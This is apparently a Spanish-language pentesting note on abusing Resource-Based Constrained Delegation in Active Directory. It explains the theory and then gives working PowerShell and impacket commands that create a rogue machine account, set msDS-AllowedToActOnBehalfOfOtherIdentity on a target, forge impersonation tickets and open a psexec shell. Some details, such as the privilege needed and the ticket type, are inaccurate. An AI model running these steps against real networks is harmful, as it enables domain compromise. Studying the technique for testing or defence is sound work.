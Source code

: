 -----
- Tags: #ataque #teoria #practica #windows 
-----
##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```




